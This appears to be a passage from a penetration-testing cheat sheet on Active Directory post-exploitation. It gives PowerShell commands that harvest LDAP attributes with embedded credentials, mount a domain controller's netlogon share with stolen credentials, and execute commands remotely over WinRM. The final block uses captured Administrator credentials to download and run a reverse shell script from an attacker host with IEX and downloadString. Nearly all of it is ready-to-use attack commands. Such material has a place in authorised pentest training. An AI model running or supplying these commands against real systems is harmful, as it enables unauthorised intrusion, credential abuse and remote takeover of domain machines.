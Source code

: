 #### Harvesting other information

```powershell
(New-Object adsisearcher((New-Object adsi("LDAP://dc.domaincontroller.local","target-machine\ldap","target-machine-pass")),"(info=*)")).FindAll() | %{ $_.Properties }

(New-Object adsisearcher((New-Object adsi("LDAP://dc.fulcrum.local","fulcrum\ldap","PasswordForSearching123!")),"(info=*)")).FindAll() | %{ $_.Properties }

```

### Accessing the netlogon share on DC

If you managed to compromise a machine part of a domain controller then you can use the machine credentials usually \[username:pass] to access the netlogon share on the domain controller. Netlogon share stores group policy login scripts files and other executables. Execute the below powershell command

```
PS > net use \\dc.domaincontroller.local\netlogon   /user:domainname\username password
```

### Executing remote commands on a domain machine with their pair of credentials and winrm open \[run as method]

If you have got authentication credentials for a machine and you want to execute commands remotely, then execute the below powershell. Make sure to substitute \[open-port]

```powershell
PS > $pass = convertto-securestring -AsPlainText -Force -String 'pass'; 

PS > $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist 'domainname\username',$pass; 

PS > Invoke-Command -ComputerName computer-name -Credential $cred -Port 5985 -ScriptBlock { command }

```

The next example will execute use the credentials obtained and retrieve a shell from the attacker machine `shell.ps` that could be `nishasng shell` and you should receive the shell back from the vicitim machine to your listener.

```powershell
PS C:\inetpub\wwwroot\internal-01\log> $username = "pentesting.local\Administrator" 

PS C:\inetpub\wwwroot\internal-01\log> $password = "3130457h31186feef962f597711faddb"

PS C:\inetpub\wwwroot\internal-01\log> $securestring = New-Object -TypeName System.Security.SecureString 

PS C:\inetpub\wwwroot\internal-01\log> $password.ToCharArray() | ForEach-Object {$securestring.AppendChar($_)} 

PS C:\inetpub\wwwroot\internal-01\log> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $securestring 

PS C:\inetpub\wwwroot\internal-01\log> Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://attacker-ip:8080/shell.ps1') } -Credential $cred -Computer localhost
```

